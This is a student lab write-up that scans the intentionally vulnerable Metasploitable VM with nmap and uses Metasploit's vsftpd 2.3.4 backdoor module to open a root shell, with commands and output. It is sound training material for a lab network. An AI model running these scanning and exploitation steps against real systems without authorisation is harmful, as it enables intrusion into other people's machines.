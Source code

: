# Lab 5 - Vulnerability Exploitation

## **Lab Preparation**

Ensure that both the Kali and the metasploitable machines are powered on and on the
same network. Verify connectivity between them by using the ping command.

 1. Run nmap against the metasploitable machine using the following command.

	- ```sudo nmap -sV <metasploitable IP> -vvv``` 

	- Make note of open ports and services.

	```
	PORT     STATE SERVICE     REASON         VERSION
	21/tcp   open  ftp         syn-ack ttl 64 vsftpd 2.3.4
	22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	23/tcp   open  telnet      syn-ack ttl 64 Linux telnetd
	25/tcp   open  smtp        syn-ack ttl 64 Postfix smtpd
	53/tcp   open  domain      syn-ack ttl 64 ISC BIND 9.4.2
	80/tcp   open  http        syn-ack ttl 64 Apache httpd 2.2.8 ((Ubuntu) DAV/2)
	111/tcp  open  rpcbind     syn-ack ttl 64 2 (RPC #100000)
	139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	512/tcp  open  exec        syn-ack ttl 64 netkit-rsh rexecd
	513/tcp  open  login       syn-ack ttl 64 OpenBSD or Solaris rlogind
	514/tcp  open  tcpwrapped  syn-ack ttl 64
	1099/tcp open  java-rmi    syn-ack ttl 64 GNU Classpath grmiregistry
	1524/tcp open  bindshell   syn-ack ttl 64 Metasploitable root shell
	2049/tcp open  nfs         syn-ack ttl 64 2-4 (RPC #100003)
	2121/tcp open  ftp         syn-ack ttl 64 ProFTPD 1.3.1
	3306/tcp open  mysql       syn-ack ttl 64 MySQL 5.0.51a-3ubuntu5
	5432/tcp open  postgresql  syn-ack ttl 64 PostgreSQL DB 8.3.0 - 8.3.7
	5900/tcp open  vnc         syn-ack ttl 64 VNC (protocol 3.3)
	6000/tcp open  X11         syn-ack ttl 64 (access denied)
	6667/tcp open  irc         syn-ack ttl 64 UnrealIRCd
	8009/tcp open  ajp13       syn-ack ttl 64 Apache Jserv (Protocol v1.3)
	8180/tcp open  http        syn-ack ttl 64 Apache Tomcat/Coyote JSP engine 1.1
	```

	- Make note of what port VSFTPD service is running.

	VSFTPD is running on port 21.

 2. Start the Kali PostgreSQL service (which Metasploit uses as its backend) by
running the following command.

	- ```sudo systemctl start postgresql```

 3. Initialize the Metasploit PostgreSQL database by running the following command.

	- ```sudo msfdb init```

 4. Launch msfconsole

	- ```msfconsole```

 5. Check the database connectivity using the following command.

	- ```db_status``` (it should say connected).

 6. Explore the search command by typing "help search".

 7. Search for an VSFTPD exploit.

	- ```search type:exploit name:vsftp```

 8. How many exploits were found?

```
msf6 > search type:exploit name:vsftp

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

 9. Select the found exploit by typing the following command.

	- ```use exploit/unix/ftp/vsftpd_234_backdoor```

 10. Review the options of the exploit by typing the following command.

	 - ```show options```

 11. Set the remote host and ports by using the following commands.

	 - ```set RHOSTS <Metasploitable IP Address>```

	 - ```set RPORT <VSFTPD port number>```

 12. Verify what payloads are available by using the "show payloads" command.

 13. How many payloads are available?

 13. There is one payload ```payload/cmd/unix/interact```

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show payloads
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here

Compatible Payloads
===================

   #  Name                       Disclosure Date  Rank    Check  Description
   -  ----                       ---------------  ----    -----  -----------
   0  payload/cmd/unix/interact                   normal  No     Unix Command, Interact with Established Connection
```

 14. Run the exploit by using the following command.

	 - ```exploit```

 15. Once the shell is opened type ```hostname```, followed by ```ifconfig```. Include screenshot of output.

![Compromised Shell](hostnameIFconfig.png)
